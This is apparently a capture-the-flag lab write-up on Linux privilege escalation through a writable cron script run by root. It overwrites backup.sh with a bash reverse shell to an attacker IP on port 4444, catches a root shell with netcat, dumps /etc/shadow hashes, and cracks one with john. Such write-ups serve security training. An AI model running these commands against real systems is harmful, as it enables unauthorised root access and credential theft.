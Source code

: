 Username: karen
Password: Password1

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under /etc/crontab

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.
```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

Modify the `backup.sh` for a reverse shell

```
$ echo '#!/bin/bash \nbash -i >& /dev/tcp/10.17.21.74/4444 0>&1' > backup.sh
$ cat backup.sh
#!/bin/bash 
bash -i >& /dev/tcp/10.17.21.74/4444 0>&1
$ chmod +x backup.sh
```

Start netcat:
```
[$] <> nc -lvnp 4444             
Listening on 0.0.0.0 4444
Connection received on 10.10.21.89 35644
bash: cannot set terminal process group (13352): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-21-89:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Get the flag:
```
root@ip-10-10-21-89:/# cd /home
cd /home
root@ip-10-10-21-89:/home# ls
ls
karen
ubuntu
root@ip-10-10-21-89:/home# cd ubuntu
cd ubuntu
root@ip-10-10-21-89:/home/ubuntu# ls
flag5.txt
root@ip-10-10-21-89:/home/ubuntu# cat flag5.txt
cat flag5.txt
THM-383000283
```

Get the Password:
```
root@ip-10-10-21-89:/home/ubuntu# cat /etc/shadow
cat /etc/shadow
root:*:18561:0:99999:7:::
.
.
.
ubuntu:!:18798:0:99999:7:::
karen:$6$ZC4srkt5HufYpAAb$GVDM6arO/qQU.o0kLOZfMLAFGNHXULH5bLlidB455aZkKrMvdB1upyMZZzqdZuzlJTuTHTlsKzQAbSZJr9iE21:18798:0:99999:7:::
lxd:!:18798::::::
matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:18798:0:99999:7:::
```

Use john to brute force the Password:
```
[$] <> john --wordlist=rockyou.txt hashes.txt       
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (?)
1g 0:00:00:00 100% 33.33g/s 3200p/s 3200c/s 3200C/s 123456..yellow
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```